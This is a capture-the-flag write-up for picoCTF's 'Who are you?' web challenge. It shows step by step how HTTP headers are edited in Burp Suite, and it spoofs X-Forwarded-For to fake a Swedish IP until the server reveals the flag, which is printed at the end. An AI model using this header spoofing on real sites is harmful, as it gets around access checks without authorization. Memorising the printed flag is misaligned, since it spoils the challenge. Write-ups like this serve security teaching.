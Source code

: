 # Who are you?

###### Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:52362/

Let's try to visit the site

![PicoBrowser](img1.png)

Ok, so probably we need to change the HTTP GET request, we can do this using [Burp Suite CE](https://portswigger.net/burp)

Let's change the `User-Agent` and send the request

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

![](img2.png)

We can set the `Referer` with the same host address

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Referer: mercury.picoctf.net:52362
```

![](img3.png)

Now it's the turn of `Date`

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Referer: mercury.picoctf.net:52362
Date: Wed, 21 Oct 2018 07:28:00 GMT
```

![](img4.png)

Time to add `DNT (Do Not Track)`

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Referer: mercury.picoctf.net:52362
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT: 1
```

![](img5.png)

This time it's more difficult, `Accept-Language` and` Content-Language` didn't work. so maybe we need to set our IP to be a Sweden one, we can do this using `X-Forwarded-For` and some random Swedish IP

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Referer: mercury.picoctf.net:52362
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT: 1
X-Forwarded-For: 2.16.66.1
```
![](img6.png)

Ok, now it's time to change `Accept-Language`

```
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: sv-SE,sv;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Referer: mercury.picoctf.net:52362
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT: 1
X-Forwarded-For: 2.16.66.1
```

And here is the flag

![](img7.png)

#### **FLAG >>** `picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_0c0db339}`